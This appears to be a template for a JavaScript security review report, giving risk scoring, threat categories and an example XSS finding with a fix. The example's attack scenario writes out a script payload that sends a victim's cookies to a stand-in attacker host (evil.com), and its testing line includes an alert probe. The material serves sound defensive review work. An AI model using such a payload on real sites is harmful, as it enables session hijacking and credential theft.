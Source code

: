 ## Expected Output:
> All issues must be written to `javascript_security_review_YYYYMMDD.md` in the root of the project

### Risk Scoring Framework:
- **CRITICAL (9-10)**: Remote code execution, authentication bypass, data exfiltration
- **HIGH (7-8)**: Privilege escalation, data manipulation, DoS attacks
- **MEDIUM (4-6)**: Information disclosure, logic flaws, configuration issues  
- **LOW (1-3)**: Information leaks, minor misconfigurations, best practice violations

### Threat Modeling Integration:
Categorize findings by business impact:
- **Data Confidentiality**: Unauthorized access to sensitive data
- **Data Integrity**: Unauthorized modification of data
- **Service Availability**: Denial of service or system downtime
- **Compliance**: Regulatory or policy violations

For each issue found:
- **Risk Score (1-10)** and **Threat Category**
- **Detection Pattern** used to identify the vulnerability
- Title of the issue and affected component
- Code snippet or line reference  
- Technical explanation of the vulnerability
- **Business Impact** and **Attack Scenario**
- Suggested secure fix (JavaScript code patch)
- **Remediation Timeline**: Immediate/7-days/30-days
- Category tag and testing recommendations

## Example Output Format:

### 🔴 CRITICAL Risk Score: 9/10 | Threat: Data Confidentiality
### Issue: DOM-based XSS via innerHTML in User Dashboard
**Component:** `dashboard/user-profile.js`  
**Line 42:** `element.innerHTML = userInput;`  
**Detection Pattern:** Direct innerHTML assignment with user data  
**Business Impact:** Complete client-side compromise, session hijacking, credential theft  
**Attack Scenario:** Attacker injects `<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>` via profile input, stealing user sessions when victims view the profile  
**Fix:**
```javascript
// Use textContent for plain text
element.textContent = userInput;

// Or sanitize if HTML is needed
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput);
```
**Category:** XSS Prevention  
**Remediation Timeline:** Immediate (< 24 hours)  
**Testing:** Test with `<script>alert('XSS')</script>` and various bypass payloads
